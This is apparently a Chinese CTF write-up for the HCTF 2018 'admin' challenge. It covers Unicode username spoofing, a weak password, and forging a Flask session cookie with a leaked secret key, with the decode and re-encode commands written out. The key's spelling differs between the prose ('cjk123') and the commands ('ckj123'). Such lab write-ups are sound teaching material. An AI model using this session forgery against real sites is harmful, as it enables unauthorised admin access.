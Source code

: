 # [HCTF 2018]admin

## 知识点

``

### 1.非预期解

#### 1.1.`Unicode`欺骗

ᴬᴰᴹᴵᴺ

#### 1.2.弱口令

我注册了`admin1`，密码是`123`，登录的时候少输了，输成了`admin`，直接拿到了`flag`，所以密码居然直接是`123`......

### 2.预期解

随便注册账号登录后发现在修改密码处找到了`https://github.com/woadsl1234/hctf_flask/ `

进入`github`看一下，目前已经删除了，看以前的`wp`能发现加密密钥在`config.py`里，为`cjk123`

![session](img/admin-1.png)

需要`session`为`admin` 因为`flask`是轻量级`web`框架，`session`存在客户端，所以我们可以伪造`session`

使用[flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)

加密
``` bash
python3 flask_session_cookie_manager3.py decode -c ".eJw9kMuKwkAQRX9lqHUWebkRXEQ6hglUhYSOoXojjhM1nbQDUZnY4r9P64Dbe6jDvXWHzX5sz0eYX8Zr68Gm-4b5HT6-YA6FxFBJ6lmSQZ3EKFZ9IahTpoyVXHZs1oYE31DgjeXyyTRmVYdNHSvNvpLlpExtSVNfNDxDeQiKrJ6cLWLLM9KrQRn-Jbke3E1UZOw4zkimMds6VC5zjhvZvCdx8MligDrv2Xy-chSVRlO6jskCHh7szuN-c_np29N7AoXrI9mhU8Jps2qgMA1IPOsnAVqeVLMyZJXGphrQpNbpIiwXL11ntof2bSqbnKvkn5y2xgHYgQfXczu-fgaBD48_zF9qFg.Zb4-YQ.6KG3ddkMAqWZ0Ev3ixN5XmxfkOE" -s "ckj123"
```

![alt text](img/admin-2.png)

重新加密
```bash
python3 flask_session_cookie_manager3.py encode -s "ckj123" -t "{'_fresh': True, '_id': b'936e3da3f20801d83bfd8e0bbef462032a0d83c0db1e8f64e41fe363d9f91858e16c7c6961eff055e1e78f58c9518c56ee7e4272d48473522dbb7e4204c2d6e0', 'csrf_token': b'7ea79bd394de7a5448e05361eaf76c1de2a32d71', 'image': b'AbXD', 'name': 'admin', 'user_id': '10'}"
```

![alt text](img/admin-3.png)

总结：因`flask`将`session`保存在客户端中的(`Cookie`)，导致`session`可修改，找到密钥后把解密后的用户名处改为`admin`重新加密`cookie`即可获取`flag`